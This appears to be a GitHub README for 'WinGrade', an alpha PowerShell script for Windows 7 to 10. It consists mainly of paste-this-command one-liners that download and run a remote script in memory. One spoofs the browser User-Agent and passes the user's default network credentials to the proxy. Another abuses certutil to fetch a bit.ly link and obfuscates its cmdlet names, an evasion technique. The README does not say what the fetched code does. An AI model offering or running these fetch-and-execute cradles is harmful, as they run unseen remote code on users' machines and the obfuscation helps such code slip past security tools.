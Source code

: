 # WinGrade

You can execute it in every Windows Operating System from Windows 7 - 10.

You don't have to Download the Program directly at github.


Just execute [CMD]:
```powershell
powershell "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')"
```
or
```powershell
powershell "$down=New-Object Net.WebClient;$down.Headers['User-Agent']='Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/525.19 (KHTML, like Gecko) Chrome/1.0.154.53 Safari/525.19';$down.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;$down.DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')|iex"
```
in [POWERSHELL]:

```powershell
powershell "iex(((C:\Windows\System32\certutil -ping https://bit.ly/2tZuas2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-Skip 2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-SkipLast 1)-Join'`r`n'))"
```

Tested on following Operating Systems:

|   System        |  x64  |  x86  |
| :---            | :---: | :---: |
| Windows 10      |  [x]  |  [ ]  |
| Windows 8.1     |  [x]  |  [ ]  |
| Windows 8       |  [ ]  |  [ ]  |
| Windows 7       |  [x]  |  [ ]  |
| Windows Vista   |  [ ]  |  [ ]  |

This Script is still in the early Alpha release!!! And has some bugs
